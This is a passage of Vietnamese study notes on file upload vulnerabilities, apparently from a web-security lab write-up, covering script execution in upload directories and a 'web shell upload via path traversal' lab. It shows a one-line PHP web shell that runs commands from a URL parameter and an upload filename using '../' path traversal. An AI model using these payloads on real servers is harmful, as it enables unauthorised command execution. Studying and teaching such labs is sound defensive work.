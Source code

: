 - Submit nội dung là hoàn thành bài lab này
    ![alt text](/File%20Upload/images/image-12.png)


### Preventing file execution in user-accessible directories

- Mặc dù việc ngăn chặn các loại tệp nguy hiểm được tải lên ngay từ đầu là tốt hơn, nhưng biện pháp phòng ngừa thứ hai là ngừng việc máy chủ thực thi bất kỳ kịch bản nào mà lỡ lọt qua.

- Các máy chủ thường chỉ chạy các kịch bản có `MIME type` đã được cấu hình rõ ràng để thực thi. Nếu không, chúng có thể chỉ trả về một thông báo lỗi hoặc, trong một số trường hợp, phục vụ nội dung của tệp như văn bản thuần túy.
- Ví dụ:
    ```php
        GET /static/exploit.php?command=id HTTP/1.1
        Host: normal-website.com

        HTTP/1.1 200 OK
        Content-Type: text/plain
        Content-Length: 39

        <?php echo system($_GET['cmd']); ?>
    ```
    - Response trả về là `200 OK` nhưng `Content-Type` lại ở định dạng `text/plain` tức văn bản thuần túy (plain text), không phải là HTML hay PHP.

- Hành vi này có thể hữu ích vì nó có thể giúp rò rỉ mã nguồn, nhưng nó vô hiệu hóa mọi nỗ lực tạo `shell web`.

- Cấu hình này thường khác nhau giữa các thư mục. Một thư mục nơi người dùng tải tệp lên sẽ có các biện pháp kiểm soát nghiêm ngặt hơn so với các vị trí khác trong hệ thống tệp mà không dự định chứa tệp do người dùng cung cấp. Nếu bạn có thể tìm cách tải lên một kịch bản vào thư mục khác mà không phải thư mục chứa tệp người dùng, máy chủ có thể vẫn thực thi kịch bản của bạn.


#### Lab: Web shell upload via path traversal

- Sau khi upload avartar bằng mã khai thác `php`, nhận thấy phản hồi của trang web trả về đúng với nội dung mã khai thác `(text/plain)`.
    ![alt text](/File%20Upload/images/image-13.png)
- Thử lại bằng cách thay đổi đường dẫn file qua kỹ thuật `path traversal` 
    ```bash
    Content-Disposition: form-data; name="avatar"; filename="../avatar.php"